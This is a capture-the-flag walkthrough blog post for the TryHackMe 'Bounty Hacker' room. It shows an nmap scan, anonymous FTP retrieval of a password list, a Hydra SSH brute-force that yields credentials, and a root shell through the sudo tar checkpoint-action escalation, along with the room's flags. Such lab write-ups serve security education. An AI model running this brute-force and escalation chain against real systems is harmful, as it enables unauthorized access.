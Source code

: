 ```yaml
---
title: "TryHackMe - Bounty Hacker"
date: 2025-04-28 12:00:00 +0000
author: scr4tcher
categories: [TryHackMe CTF]
tags: [nmap, ftp, hydra, ftp, GTFOBins, ssh, privilege escalation ]
---
```



## Introduction

In this post, I provide a full step-by-step walkthrough of the [Bounty Hacker room](https://tryhackme.com/room/cowboyhacker) on TryHackMe. The objective is to gain access to the target machine and escalate privileges to retrieve two flags: `user.txt` and `root.txt`.



## Reconnaissance


The first step was to perform a full port scan with **Nmap** to identify open services:

```console
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap -sC -sV -T4 -p- 10.10.110.25
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-04 11:29 EDT
Nmap scan report for 10.10.110.25
Host is up (0.069s latency).
Not shown: 55529 filtered tcp ports (no-response), 10003 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.23.106.242
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
Scan results:

- FTP (port 21) – vsftpd 3.0.3 with anonymous login

- SSH (port 22) – OpenSSH 7.2p2

- HTTP (port 80) – Apache/2.4.18


## Accessing FTP
Since anonymous login was allowed, I connected to the FTP service:

```console
┌──(kali㉿kali)-[~/Desktop]
└─$ ftp 10.10.110.25    
Connected to 10.10.110.25.
220 (vsFTPd 3.0.3)
Name (10.10.110.25:kali): ls
530 This FTP server is anonymous only.
ftp: Login failed
ftp> user Anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get task.txt
local: task.txt remote: task.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
100% |****************************************************************************|    68      991.13 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (1.02 KiB/s)
ftp> get locks.txt
local: locks.txt remote: locks.txt

```

Two interesting files were found:

- `task.txt` – a simple task list

- `locks.txt` – likely a password wordlist

Contents of `locks.txt`:


```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e


```

Contents of `task.txt`:

```console
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
The file suggests a valid user: `lin`.

## SSH Brute-force attack

The gathered `locks.txt` file was used in a brute-force attack with **Hydra**:

```console
┌──(kali㉿kali)-[~/Desktop]
└─$ hydra -l lin -P /home/kali/Desktop/locks.txt 10.10.110.25 ssh -t 4          
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-04 11:36:10
[DATA] max 4 tasks per 1 server, overall 4 tasks, 26 login tries (l:1/p:26), ~7 tries per task
[DATA] attacking ssh://10.10.110.25:22/
[22][ssh] host: 10.10.110.25   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-04 11:36:18

```

Success: valid credentials were found:

- Username: lin

- Password: RedDr4gonSynd1cat3


## SSH Login

SSH access was gained using the above credentials:

```console
                                                                                                                        
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh lin@10.10.110.25             
The authenticity of host '10.10.110.25 (10.10.110.25)' can't be established.
ED25519 key fingerprint is SHA256:Y140oz+ukdhfyG8/c5KvqKdvm+Kl+gLSvokSys7SgPU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.110.25' (ED25519) to the list of known hosts.
lin@10.10.110.25's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ 
```
Once inside, I located and read the **user flag**:
```
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{CR1M3_SyNd1C4T3}

```

## Root Access and Final Flag

Checking sudo permissions:

```bash
sudo -l
```

```console
in@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar

```

The user can run the `tar` command as root. According to [GTFOBins](https://gtfobins.github.io/gtfobins/tar/), this can be exploited to get a root shell:

`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

```console

lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
```


After executing the command, I gained root access and retrieved the root flag:


```console
# cat /root/root.txt
THM{80UN7Y_h4cK3r}
# 
```

## Summary

This simple room demonstrates a classic attack chain: enumeration, FTP access, SSH brute-force, and privilege escalation via tar. A great learning scenario for beginners and intermediate pentesters alike.